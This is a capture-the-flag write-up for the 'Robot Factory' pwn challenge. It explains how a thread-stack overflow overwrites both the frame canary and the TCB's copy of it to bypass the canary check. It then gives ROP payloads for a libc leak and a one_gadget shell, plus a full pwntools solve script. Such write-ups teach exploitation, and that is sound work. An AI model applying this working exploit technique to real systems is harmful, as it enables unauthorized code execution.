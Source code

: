 # (pwn) Robot Factory

We are provided with the `robot_factory` binary and a `libc.so.6`, but no source, so the first thing we did from here was investigate how the binary worked and what it did.

The program prompts you for a type of "robot" (either number of string), and lets you have the robot do some kind of operation. It then spits out the result and "shuts down" (frees) the robot.

All of the above is done in a multi-threaded fashion, as such:

1. User creates a robot (number/string)
2. User selects operation (addition/subtraction/multiplication)
3. After a slight delay (from a sleep(1)), the program spits out the result of the robot and deletes it

Right away upon reversing the program we noticed that it is multi-threaded - each robot gets its own thread to process things, and there is a dedicated thread for killing the robots once they are done (running the `self_destruct_protocol` function).

Through some "fuzzing" (really just manually screwing around with the binary), we discovered that there were several issues with basically every single operation in the program. Here's a few:

1. The number operations printed out a stack address instead of an actual result.
2. The string addition/multiplication operations often resulted in a stack overflow
3. We could somehow trigger a tcache double free with string operations
    * We couldn't replicate this in practice, but later found it was due to the unimplemented subtraction being incorrectly handled

The second problem in that list made this seem like an open and shut problem, other than the *small* issue of there being a stack canary in the `do_string` function. Nonetheless, it seemed extremely promising.

Eventually, through sheer blind luck, we discovered something extremely bizarre. Let's see what happens when we try a stack overflow with 300 characters using the multiply function:
![](https://i.imgur.com/dZpHeo6.png)

We tripped the canary check. That seems about right. Now let's try the same thing with 3000 characters:
![](https://i.imgur.com/DwWPNN0.png)


Okay, so what? We just segfaulted. Obviously that's because the `memcpy` ran off the stack, nothing inter-
![](https://i.imgur.com/TxwVXP2.png)

*What?*

How did we just bypass the canary check??? Didn't we just overwrite it???

After some research, we discovered what was happening when we stumbled upon this blogpost: https://vishnudevtj.github.io/notes/star-ctf-2018-babystack

In summary, every thread has its own "Thread Control Block" (TCB) that stores thread-specific info. This struct is stored at the top of every thread's stack.

It turns out that the canary is unique per-thread, so it ends up stored in the TCB. When we trigger an overflow with a huge amount of characters (but not enough to go off the stack), it overwrites the canary in our current stack frame, as well as the saved canary. If we overwrite these with the same thing, we can pass the canary check even though we wrote past it.

From here, this becomes a relatively normal ROP challenge, albeit with a few restrictions; since the string multiply operation is the only one that can get us an overflow large enough to overwrite the TCB, we need to have a payload that has both of the overwritten canaries match each other after cycling over and over.

Other than that caveat, our ROP chain is pretty standard. There's no PIE or seccomp, and we're basically unrestricted in terms of length (264 bytes of space is anything but restrictive), so we went the typical route of GOT libc leak -> `system` call. Here is our first payload:

```python=
payload = b''
payload += p64(pop_rdi) # start of rop chain - will also overwrite og canary
payload += p64(e.got['puts'])
payload += p64(e.plt['puts']) 
payload += p64(e.plt['sleep']) # sleep 4ever woohoo
payload += p64(1000000)
payload += p64(pop_rdi) # this will overwrite canary copy
payload += p64(0x4141414141414141) # saved rbp
```

The multi-threaded nature of the program lets us be a little more liberal with our ROP chain. Why should we have to read in the second stage (`system` call to get shell) when we could just have this thread go to sleep for the forseeable future?

However, we see something strange when we try to call system in our ROP chain:
![](https://i.imgur.com/MAWzsvb.png)

In the call to `system`, we end up calling what looks like a random address. This is a separate issue from the stack being misaligned, since we already addressed that, so there must be another problem.

It turns out that the TCB also contains the pointer guard secret for the thread - a mechanism through which libc encrypts (function) pointers. This is a problem, since we have completely clobbered it already. One of these pointers is used in `system`, so we're going to have to work around that somehow.

We ended up using a libc onegadget, since that was a bit simpler than setting up a full execve syscall ROP chain:
```python=
payload = b''
payload += p64(onegadget)
payload += p64(pop_rdx_r12) # overwrites frame canary
payload += p64(0x4141414141414141)
payload += p64(pop_rsi) # start of rop chain
payload += p64(0)
payload += p64(pop_rdx_r12) # overwrites TCB canary
payload += p64(0)
payload += p64(0)
```

Once we combine both of these, we can obtain a shell and the flag: ![](https://i.imgur.com/gATy5wQ.png)


### Full Solve Script

```python=
import sys
from pwn import *

path = './robot_factory'
host = '167.172.49.117'
port = 30293

e = ELF(path)
libc = ELF('./libc.so.6')

if len(sys.argv) > 1:
    DEBUG = True
    p = gdb.debug(path, '''
        c
    ''', api=True)
else:
    DEBUG = False
    p = remote(host, port)

p.sendline(b's')
p.sendline(b'm')

pop_rdi = 0x401ad3
ret = pop_rdi + 1

payload = b''
payload += p64(pop_rdi) # start of rop chain - will also overwrite og canary
payload += p64(e.got['puts'])
payload += p64(e.plt['puts']) 
payload += p64(e.plt['sleep']) # sleep 4ever woohoo
payload += p64(1000000)
payload += p64(pop_rdi) # this will overwrite canary copy
payload += p64(0x4141414141414141) # saved rbp

assert(b'\n' not in payload)

p.sendline(payload)
p.sendline(b'80')

leak = p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')
libc.address = u64(leak) - libc.symbols['puts']
log.info(f"libc base: 0x{libc.address:x}")

binsh = next(libc.search(b'/bin/sh\x00'))
pop_rsi = libc.address + 0x27529
pop_rdx_r12 = libc.address + 0x11c371
onegadget = libc.address + 0xe6c84

payload = b''
payload += p64(onegadget)
payload += p64(pop_rdx_r12)
payload += p64(0x4141414141414141)
payload += p64(pop_rsi) # start of rop chain
payload += p64(0)
payload += p64(pop_rdx_r12)
payload += p64(0)
payload += p64(0)

assert(b'\n' not in payload)

p.sendline(b's')
p.sendline(b'm')
p.sendline(payload)
p.sendline(b'70')

p.interactive()

```
